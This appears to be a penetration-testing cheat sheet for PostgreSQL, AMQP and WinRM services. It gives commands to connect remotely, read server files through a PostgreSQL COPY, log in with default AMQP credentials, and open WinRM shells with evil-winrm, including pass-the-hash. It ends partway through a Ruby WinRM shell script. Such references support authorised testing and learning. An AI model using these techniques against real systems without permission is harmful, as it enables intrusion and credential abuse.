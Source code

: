 ### Port 5432 / 5433 -  Postgresql

```bash
# Connect
psql -U <myuser> # Open psql console with user

# Remote connection
psql -h $IP -U <username> -d <database>
psql -h $IP -p <port> -U <username> -W <password> <database>

psql -h localhost -d <database_name> -U <User> #Password will be prompted
\list # List databases
\c <database> # use the database
\d # List tables
#To read a file:
CREATE TABLE demo(t text);
COPY demo from '[FILENAME]';
SELECT * FROM demo;

# Enumeration
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection

```
### Port 5671 - AMQP

```python
import amqp
#By default it uses default credentials "guest":"guest"
conn = amqp.connection.Connection(host="<IP>", port=5672, virtual_host="/")
conn.connect()
for k, v in conn.server_properties.items():
    print(k, v)
```
```bash
# Automatic
nmap -sV -Pn -n -T4 -p 5672 --script amqp-info $IP
```

### Port 5985 / 5986 - WinRM

5985/tcp (HTTP)
5986/tcp (HTTPS)

```bash
gem install evil-winrm
evil-winrm -i $IP -u Administrator -p 'password1'
# Pass the hash with evil-winrm
evil-winrm -i $IP -u Administrator -H 'hash-pass'

```
Code extracted from here: https://alamot.github.io/winrm_shell/
```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new(
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
```